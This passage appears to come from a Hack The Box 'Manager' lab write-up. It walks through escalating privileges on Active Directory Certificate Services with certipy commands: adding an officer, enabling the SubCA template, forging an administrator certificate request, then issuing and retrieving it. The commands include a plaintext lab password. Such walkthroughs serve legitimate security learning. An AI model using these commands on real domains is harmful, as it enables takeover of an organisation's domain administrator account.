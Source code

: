 1. You grant yourself the `Manage Certificates` access right by adding the user as a new officer.

```
certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -add-officer raven
```

![Add-officer-Raven](/images/HTB-Manager/CA1.png)

2. The `SubCA` template can be **enabled on the CA** with the `-enable-template` parameter.

```
certipy ca -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

![Enable-SubCA](/images/HTB-Manager/CA2.png)

3. We start by requesting a certificate based on the SubCA template. This request will be denied, but we will save the private key and note down the request ID. make sure you are running the command from a directory where you have writing rights, otherwise the `.key` will not be written.

```
certipy req -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -template SubCA -upn administrator@manager.htb
```

![Certificate-private-key](/images/HTB-Manager/CA3.png)

4. With the `Request ID`, issue a certificate. You do so with `-issue-request <request ID>`

```
certipy ca -ca 'manager-DC01-CA' -issue-request 24 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
```

![Certificate-issued-successfully](/images/HTB-Manager/CA4.png)

5. Retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 24 -dc-ip 10.10.11.236
```

![Certificate-retrieved](/images/HTB-Manager/CA5.png)

6. The execution of the next commands will require clock synchronization with the DC. In order for this to work, we can use `ntpdate`.

> This step is very time sensitive, you need to run these commands quickly. If you aren't able to make it work, I recommend chaining the commands together after running `sudo ntpdate -u manager.htb`.

Failing to execute the commands fast enough will lead to this error.

![Clock-skew-error](/images/HTB-Manager/Clock-error.png)
